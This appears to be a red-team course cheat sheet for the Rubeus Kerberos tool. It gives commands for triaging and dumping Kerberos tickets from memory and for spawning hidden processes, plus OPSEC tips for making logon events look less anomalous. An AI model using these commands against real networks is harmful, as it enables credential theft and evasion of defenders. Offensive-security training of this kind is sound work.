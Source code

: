 [Rubeus](https://github.com/GhostPack/Rubeus) is a C# tool designed for Kerberos interaction and abuses, using legitimate Windows APIs.


## Usage

---

### describe

Gets the TGT for the current user.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe
```

### triage

List all the Kerberos tickets in your current logon session and if elevated, from all logon sessions on the machine.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe triage
```

### dump

Extracts TGTs and TGSs from memory.
If not elevated, we can only pull tickets from our own session.  Without any further arguments, Rubeus will extract all tickets possible, but we can be more specific by using the `/luid` and `/service` parameters.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe dump /luid:0x7049f /service:krbtgt /nowrap
```

### createnetonly

Starts a new hidden process on the machine.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe
```
This creates a new LUID without tickets inside, so won't be visible with triage just yet.

**OPSEC**

By default, Rubeus will use a random username, domain and password with CreateProcessWithLogonW, which will appear in the associated 4624 logon event.

We can provide these options on the command line to make the fields appear less anomalous.  The password does not have to be the users' actual password.

```
execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:dev.cyberbotic.io /username:bfarmer /password:FakePass123
```
